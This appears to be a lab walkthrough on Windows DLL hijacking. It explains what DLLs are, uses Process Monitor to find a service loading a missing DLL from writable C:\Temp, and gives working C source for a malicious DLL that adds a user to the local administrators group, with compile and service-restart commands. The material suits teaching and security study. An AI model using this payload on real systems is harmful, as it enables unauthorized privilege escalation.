 ### DLL Hijacking
#### What is DLL
In describing what a DLL is, this article describes dynamic linking methods, DLL dependencies, DLL entry points, exporting DLL functions, and DLL troubleshooting tools.

This article finishes with a high-level comparison of DLLs to the Microsoft .NET Framework assemblies.

For the Windows operating systems, much of the functionality of the operating system is provided by DLL. Additionally, when you run a program on one of these Windows operating systems, much of the functionality of the program may be provided by DLLs. For example, some programs may contain many different modules, and each module of the program is contained and distributed in DLLs.

The use of DLLs helps promote modularization of code, code reuse, efficient memory usage, and reduced disk space. So, the operating system and the programs load faster, run faster, and take less disk space on the computer.

When a program uses a DLL, an issue that is called dependency may cause the program not to run. When a program uses a DLL, a dependency is created. If another program overwrites and breaks this dependency, the original program may not successfully run.

With the introduction of the .NET Framework, most dependency problems have been eliminated by using assemblies.

### Check for DLL Hijacking
1. Open the Tools folder that is located on the desktop and then go the Process Monitor folder.
2. In reality, executables would be copied from the victim’s host over to the attacker’s host for analysis during run time. Alternatively, the same software can be installed on the attacker’s host for analysis, in case they can obtain it. To simulate this, right click on Procmon.exe and select ‘Run as administrator’ from the menu.
3. In procmon, select "filter".  From the left-most drop down menu, select `Process Name`.
4. In the input box on the same line type: dllhijackservice.exe
5. Make sure the line reads `Process Name is dllhijackservice.exe then Include` and click on the `Add` button, then `Apply` and lastly on `OK`.
6. Next, select from the left-most drop down menu `Result`.
7. In the input box on the same line type: NAME NOT FOUND
8. Make sure the line reads `Result is NAME NOT FOUND then Include` and click on the `Add` button, then `Apply` and lastly on `OK`.
9. Open command prompt and type: 
```powershell
		sc start dllsvc
```
10. Scroll to the bottom of the window. One of the highlighted results shows that the service tried to execute `C:\Temp\hijackme.dll` yet it could not do that as the file was not found. Note that `C:\Temp` is a writable location.
![[Pasted image 20210718180049.png]]

### Getting Malicious
We will write a C file which will execute system commands
```C
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net localgroup administrators user /add");
        ExitProcess(0);
    }
    return TRUE;
}
```

Now compile it with the following commands
```bash
# For x64 bit
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll

# For x86 bit
i686-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
```

Now save the file in **Temp** directory and restart the dll service
```powershell
sc stop dllsvc & sc start dllsvc
```

Now you will be added in the administrator group